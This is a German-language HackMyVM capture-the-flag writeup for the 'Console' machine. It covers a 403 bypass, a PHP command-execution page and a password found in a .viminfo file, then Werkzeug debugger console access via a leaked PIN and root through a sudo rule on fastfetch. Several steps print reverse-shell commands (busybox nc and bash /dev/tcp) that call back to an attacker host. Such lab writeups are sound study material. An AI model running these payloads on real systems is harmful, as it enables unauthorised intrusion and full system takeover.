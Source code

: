 # Console - HackMyVM Writeup

![Console Icon](Console.png)

## Übersicht

*   **VM:** Console
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Console)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 25. Juni 2025
*   **Original-Writeup:** https://alientec1908.github.io/Console_HackMyVM_Medium/
*   **Autor:** Ben C.

---

**Disclaimer:**

Dieser Writeup dient ausschließlich zu Bildungszwecken und dokumentiert Techniken, die in einer kontrollierten Testumgebung (HackTheBox/HackMyVM) angewendet wurden. Die Anwendung dieser Techniken auf Systeme, für die keine ausdrückliche Genehmigung vorliegt, ist illegal und ethisch nicht vertretbar. Der Autor und der Ersteller dieses README übernehmen keine Verantwortung für jeglichen Missbrauch der hier beschriebenen Informationen.

---

## Zusammenfassung

Die Box "Console" stellte eine vielschichtige Herausforderung dar, beginnend mit einer ungewöhnlichen Web-Konfiguration. Nach der initialen Enumeration der offenen Ports (SSH, HTTP, HTTPS) wurde festgestellt, dass der Zugriff auf die HTTPS-Seite (Port 443) durch eine 403 Forbidden-Fehlermeldung blockiert war. Eine Web-Bypass-Technik ermöglichte jedoch den Zugang. Auf der Webseite wurde eine Command Execution-Schwachstelle gefunden, die eine erste Shell als `www-data` ermöglichte.

Von der `www-data`-Shell aus wurden Systeminformationen gesammelt und Dateiberechtigungen sowie Home-Verzeichnisse erkundet. Dabei wurde ein Passwort für den Benutzer `welcome` in dessen `.viminfo`-Datei gefunden. Mit diesen Anmeldedaten konnte der Benutzer gewechselt werden (`su welcome`) und anschließend mittels einer erlaubten `sudo`-Regel der Flask-Anwendungs-Log gelesen werden, welcher den Debugger-PIN enthielt.

Über einen SSH-Tunnel wurde auf die lokal laufende Flask-Anwendung zugegriffen und die Debugger-Konsole mithilfe des Pins aktiviert. Dies ermöglichte die Ausführung beliebigen Python-Codes, was zu einer Shell als Benutzer `qaq` führte.

Die finale Privilegieneskalation von `qaq` zu `root` wurde durch eine weitere `sudo`-Regel ermöglicht, die `qaq` erlaubte, das Binary `/usr/bin/fastfetch` als Root ohne Passwort auszuführen. Dieses Binary besaß eine Kommando-Ausführungsfunktion, die für die Root-Shell ausgenutzt wurde.

## Technische Details

*   **Betriebssystem:** Debian (basierend auf Nmap-Erkennung und SSH-Banner)
*   **Offene Ports:**
    *   `22/tcp`: SSH (OpenSSH 8.4p1)
    *   `80/tcp`: HTTP (Apache httpd 2.4.62)
    *   `443/tcp`: SSL/HTTP (Apache httpd 2.4.62)
    *   `5000/tcp`: (Gefiltert durch Firewall, wird später via SSH-Tunneling zugreifbar)

## Enumeration

1.  **ARP-Scan:** Identifizierung der Ziel-IP (192.168.2.61) im Netzwerk.
2.  **Nmap Scan:** Ermittlung offener Ports und Dienste. Ports 22, 80 und 443 waren offen. Port 5000 war gefiltert.
3.  **Web Enumeration (Port 80 & 443):**
    *   Standard-Zugriff auf Port 80 zeigt eine Webseite.
    *   Zugriff auf Port 443 (`https://192.168.2.61/`) führt zu einem 403 Forbidden. Der Nmap Scan zeigte, dass das SSL-Zertifikat für `hacker.maze-sec.hmv` ausgestellt war.
    *   `403-bypass.sh` wurde verwendet und zeigte, dass der 403-Fehler umgangen werden kann, z.B. durch das Ändern des HTTP-Schemas im Request.
    *   Durch Hinzufügen von `hacker.maze-sec.hmv` zur `/etc/hosts` und Zugriff via `https://hacker.maze-sec.hmv/` wurde die Webseite auf Port 443 zugänglich.
    *   Nikto Scan auf `https://hacker.maze-sec.hmv/` zeigte Directory Indexing auf `/css/` und `/img/`.
    *   Die Analyse des Webseiten-Contents und des Nikto Scans deuteten auf eine verborgene Funktionalität oder Schwachstelle hin ("黑客的窗口" - "Hacker's Window", chinesischer Text, möglicherweise eine Command Execution in Verbindung mit einem "Console"-Input). Eine Datei namens `supercoool.php` im Web-Root (`/var/www/hacker.maze-sec.hmv`) wurde gefunden, die eine einfache command execution via `$GET['cmd']` ermöglichte.

## Initialer Zugriff (www-data Shell)

1.  **Command Execution:** Die gefundene Datei `supercoool.php` konnte über `https://hacker.maze-sec.hmv/supercoool.php?cmd=` mit Befehlen versorgt werden.
2.  **Reverse Shell:** Mittels `busybox nc ANGREIFER_IP 80 -e /bin/sh` (oder einer ähnlichen busybox/netcat-Payload) konnte eine Reverse Shell zum Angreifer auf Port 80 (oder 443, je nach verfügbarer Ausgehender Verbindung) etabliert werden.
3.  **Ergebnis:** Eine Shell wurde als Benutzer `www-data` empfangen.

## Lateral Movement (www-data -> welcome -> qaq)

1.  **Systemerkundung als `www-data`:** Nach Erhalt der `www-data`-Shell wurde das Dateisystem und Benutzerverzeichnisse erkundet. Die `/etc/passwd` offenbarte die Benutzer `welcome` und `qaq`.
2.  **Passwortfund für `welcome`:** Im Home-Verzeichnis des Benutzers `welcome` (`/home/welcome/`), welches für `www-data` lesbar war, wurde die Datei `.viminfo` gefunden. Diese enthielt das Passwort `welcome:welcome123`.
3.  **Wechsel zu Benutzer `welcome`:** Mit dem gefundenen Passwort konnte erfolgreich mittels `su welcome` zum Benutzer `welcome` gewechselt werden.
4.  **Sudo-Regel für `welcome`:** Als `welcome` wurde `sudo -l` ausgeführt. Es zeigte sich, dass `welcome` den Befehl `/bin/cat /opt/flask-app/logs/flask.log` als Benutzer `qaq` ohne Passwort ausführen durfte (`(qaq) NOPASSWD: /bin/cat /opt/flask-app/logs/flask.log`).
5.  **Flask Log auslesen:** Der Befehl `sudo -u qaq /bin/cat /opt/flask-app/logs/flask.log` wurde ausgeführt. Der Log enthielt kritische Informationen über die Flask-Anwendung: Debug-Modus aktiv (`Debug mode: on`), sie läuft auf `127.0.0.1:5000` und `192.168.2.62:5000`, und der Debugger-PIN (`Debugger PIN: 137-410-206`).

## Vertical Movement & Post-Exploitation (qaq Shell via Debugger)

1.  **SSH Port Forwarding:** Um auf die lokal laufende Flask-Anwendung auf Port 5000 zuzugreifen, wurde ein SSH-Tunnel von der Angreifer-Maschine zur Box als Benutzer `welcome` eingerichtet: `ssh -L 5000:127.0.0.1:5000 welcome@192.168.2.62`. Der lokale Port 5000 des Angreifers wurde auf `localhost:5000` der Box weitergeleitet.
2.  **Flask Anwendung Zugriff & SSTI:** Über den lokalen Port 5000 (Zugriff via `http://127.0.0.1:5000` auf der Angreifer-Maschine, obwohl die Screenshots 8080 zeigen, was eine weitere lokale Weiterleitung sein könnte, der entscheidende Zugriff ist auf den Flask-Port) konnte die Flask-Anwendung erreicht werden. Es wurde eine Server-Side Template Injection (SSTI) Schwachstelle entdeckt (getestet mit `{{1/0}}`).
3.  **Debugger Konsole:** Aus dem Flask-Log war bekannt, dass der Debugger aktiv ist und auf `/console` liegt. Durch den Zugriff auf `http://127.0.0.1:5000/console` wurde die Werkzeug Debugger Konsole erreicht.
4.  **Code-Ausführung im Debugger:** Mithilfe des im Log gefundenen Debugger-PINs (`137-410-206`) konnte beliebiger Python-Code ausgeführt werden.
5.  **Shell als `qaq`:** Durch die Ausführung von `import os; os.system("bash -c 'bash -i >& /dev/tcp/192.168.2.199/443 0>&1'")` in der Debugger-Konsole wurde eine Reverse Shell als der Benutzer gestartet, unter dem die Flask-Anwendung lief. Laut pspy-Output und `sudo -l` der welcome-Shell läuft die Flask-App unter UID 1001, was dem Benutzer `qaq` entspricht. Die Shell wurde auf dem Lauschport 443 des Angreifers empfangen.

## Privilegieneskalation (qaq -> root)

1.  **Sudo-Regel für `qaq`:** Als Benutzer `qaq` wurde erneut `sudo -l` ausgeführt. Es zeigte sich, dass `qaq` den Befehl `/usr/bin/fastfetch` als Root ohne Passwort ausführen durfte (`(ALL) NOPASSWD: /usr/bin/fastfetch`).
2.  **Fastfetch Schwachstelle:** Die Binary `/usr/bin/fastfetch` wurde auf Schwachstellen untersucht. Die Hilfe-Optionen (`--help`) zeigten, dass fastfetch beliebige Befehle über Optionen wie `--command-text` und `--command-shell` ausführen kann.
3.  **Root Shell:** Durch die Ausführung von `sudo -u root /usr/bin/fastfetch --structure "command" --command-text "bash -c 'bash -i >& /dev/tcp/192.168.2.199/443 0>&1'"` wurde fastfetch als Root gestartet, welches wiederum den übergebenen Reverse Shell Payload als Root ausführte.
4.  **Ergebnis:** Eine Root-Shell wurde auf dem Lauschport 443 des Angreifers empfangen.

## Flags

*   **user.txt:** `flag{user-376760a7c739a606d4f8d8340bad4184}` (Gefunden unter `/home/welcome/user.txt`)
*   **r00t.txt:** `flag{root-009de5ebccb9fdecce2c4ac893bca6fa}` (Gefunden unter `/root/r00t.txt`)

---
